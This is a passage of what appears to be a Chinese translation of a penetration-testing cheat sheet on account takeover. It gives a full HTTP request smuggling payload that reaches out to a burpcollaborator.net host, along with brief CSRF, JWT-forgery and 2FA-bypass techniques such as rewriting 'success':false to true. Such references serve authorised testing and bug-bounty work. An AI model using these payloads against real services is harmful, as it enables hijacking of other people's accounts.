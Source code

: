 2. 伪造请求，使用以下数据覆盖 `POST / HTTP/1.1`：

```
GET http://something.burpcollaborator.net  HTTP/1.1
X: 
```

3. 最终请求可能如下所示：

```
GET /  HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83

0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```

Hackerone中该漏洞的相关报告：

- https://hackerone.com/reports/737140
- https://hackerone.com/reports/771666

## Account Takeover via CSRF - 通过CSRF接管账户

1. 为 CSRF 创建有效Payload，例如：“自动提交密码更改的 HTML 表单” 
2. 发送Payload

## Account Takeover via JWT - 通过JWT接管账户

JSON Web Token 可用于对用户进行身份验证。 

- 使用另一个用户 ID / 电子邮件编辑 JWT 
- 检查脆弱的 JWT 签名

## 2FA Bypasses - 双重认证绕过

> 译者注：2FA，Two Factor Authentication，双重身份认证

### Response Manipulation - 操控Response

将Response中的 `"success":false` 变换为 `"success":true`。

### Status Code Manipulation - 操控Status Code

如果 Status Code 为 **4xx** 尝试将其更改为 **200 OK** ，查看是否绕过限制。

### 2FA Code Leakage in Response - Response中的2FA Code泄露

查看2FA Code触发请求的响应，查看Code是否泄露。

